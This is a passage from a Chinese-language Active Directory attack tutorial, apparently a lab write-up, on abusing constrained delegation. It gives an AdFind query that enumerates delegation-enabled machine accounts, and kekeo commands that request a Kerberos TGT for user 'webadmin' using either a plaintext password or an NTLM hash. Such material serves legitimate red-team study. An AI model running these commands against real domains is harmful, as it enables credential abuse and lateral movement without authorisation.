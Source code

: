 ### 3.2.2. 查询机器账户

查询域内设置了约束委派的机器账户。

```
shell AdFind -b "DC=0day,DC=org" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
```

![image-20230801174157163](assets/image-20230801174157163-172995737576614.png)

### 3.2.3. 获取用户的票据

使用kekeo去请求TGT，这里可以采用明文或者hash值去请求，都可以，这里还是需要注意，我再做这一步的时候kekeo老是出现问题，主要还是对语法或者输入的内容比较严格。

```
明文：
shell kekeo "tgt::ask /user:webadmin /domain:0day.org /password:admin@123" "exit"   

hash值：
shell kekeo "tgt::ask /user:webadmin /domain:0day.org /NTLM:579da618cfbfa85247acf1f800a280a4" "exit"
```
